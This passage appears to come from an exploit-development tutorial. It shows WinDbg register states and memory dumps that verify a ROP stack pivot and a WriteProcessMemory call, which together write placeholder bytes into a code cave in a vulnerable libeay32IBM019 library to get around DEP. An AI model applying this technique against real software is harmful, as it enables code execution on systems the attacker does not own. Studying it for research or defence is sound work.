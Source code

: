 ```shell
110ee304 0324401c libeay32IBM019!N98E_OSSL_DES_version+0x4f018
```

breakpoint on the `0x5b415 - xchg` instruction shows a clean before-and-after picture.

```shell
Breakpoint Analysis (0x5b415 - xchg instruction):

initial state:
EAX=110ee2ec EBX=05fbf4d8 ECX=ffffffec EDX=77251670 
ESI=42424242 EDI=00669360
ESP=110ee3b0 EBP=41414141 EIP=031bb415

post-xchg State:
EAX=110ee3b0 (old ESP)
ESP=110ee2ec (aligned to WPM setup)
EIP=031bb416 (ready for ret)

final execution state:
EIP=75f42890 (WPM entry)
ESP=110ee2f0 (properly aligned for call)
```

note that `lpBuffer` is stored at `0x110ee41c`. 

#### verifications

dump the contents of the code cave before and after the API executes.

```shell
0:085> u 031f2c04
libeay32IBM019!N98E_bn_sub_words+0x107c:
031f2c04 0000 add byte ptr [eax],al
031f2c06 0000 add byte ptr [eax],al
031f2c08 0000 add byte ptr [eax],al
031f2c0a 0000 add byte ptr [eax],al
031f2c0c 0000 add byte ptr [eax],al
031f2c0e 0000 add byte ptr [eax],al
031f2c10 0000 add byte ptr [eax],al
031f2c12 0000 add byte ptr [eax],al
0:085> p t
eax=00000001 ebx=05fbf4d8 ecx=00000000 edx=77251670 esi=42424242 edi=00669360
eip=745f82a4 esp=110ee2f0 ebp=41414141 iopl=0 nv up ei pl nz na po nc cs=001b
ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
KERNELBASE!WriteProcessMemory+0x74:
745f82a4 c21400 ret 14h
0:085> u 031f2c04
libeay32IBM019!N98E_bn_sub_words+0x107c:
031f2c04 44 inc esp
031f2c05 44 inc esp
031f2c06 44 inc esp
031f2c07 44 inc esp
031f2c08 44 inc esp
031f2c09 44 inc esp
031f2c0a 44 inc esp
031f2c0b 44 inc esp
```

